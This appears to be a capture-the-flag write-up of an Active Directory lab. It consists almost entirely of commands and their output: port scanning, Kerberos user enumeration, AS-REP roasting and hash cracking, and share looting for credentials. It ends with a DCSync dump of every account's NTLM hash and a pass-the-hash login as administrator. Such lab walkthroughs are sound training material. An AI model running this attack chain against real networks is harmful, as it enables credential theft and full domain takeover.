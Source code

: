 
## nmap -sVC 10.10.96.84 -T4

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-16 17:47 EET
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64370 > 10.10.96.84:53 S ttl=38 id=49382 iplen=44  seq=1945375481 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64371 > 10.10.96.84:53 S ttl=47 id=21233 iplen=44  seq=1945441016 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64372 > 10.10.96.84:53 S ttl=59 id=42740 iplen=44  seq=1945506555 win=1024 <mss 1460>
Nmap scan report for 10.10.96.84
Host is up (0.37s latency).
Not shown: 987 closed ports
PORT     STATE    SERVICE       VERSION
53/tcp   filtered domain
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-16 15:48:19Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.30 seconds
```

## AD Users Enumeration 
### ./kerbrute userenum -d spookysec.local --dc 10.10.96.84  userlist.txt 
 ``` 
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local 
```

## AS-REP ROASTING 
###  python3 GetNPUsers.py spookysec.local/ -userfile users.txt -no-pass -dc-ip 10.10.96.84 
 ```  
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set  
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  
```
### John Hash.txt
```  svc-admin:management2005```

## smbclient -L //10.10.96.84  -U 'svc-admin' 
```	
        Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```
## smbclient //10.10.96.84/backup -U 'svc-admin'

## smb: \> get backup_credentials.txt
```
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
backup@spookysec.local:backup2517860
```
##  DCSync
### python3 secretsdump.py -dc-ip 10.10.96.84 spookysec.local/backup:backup2517860@10.10.96.84 -use-vss
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
```

##  Pass The Hash
###   evil-winrm -i 10.10.96.84 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

